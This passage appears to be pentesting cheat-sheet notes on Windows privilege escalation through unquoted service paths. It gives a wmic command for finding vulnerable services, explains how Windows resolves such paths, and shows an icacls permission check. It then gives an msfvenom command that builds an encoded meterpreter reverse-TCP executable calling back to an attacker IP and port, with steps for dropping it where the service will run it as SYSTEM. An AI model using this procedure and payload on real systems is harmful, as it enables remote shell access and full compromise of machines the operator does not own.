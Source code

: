 ### Unquoted Service Path
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.

In order to check the permissions of a folder
icacls "C:\Program Files (x86)\Program Folder"



msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o A.exe
Let’s place our payload to C:\Program Files (x86)\Program Folder folder:
cd "../../../Program Files (x86)/Program Folder"
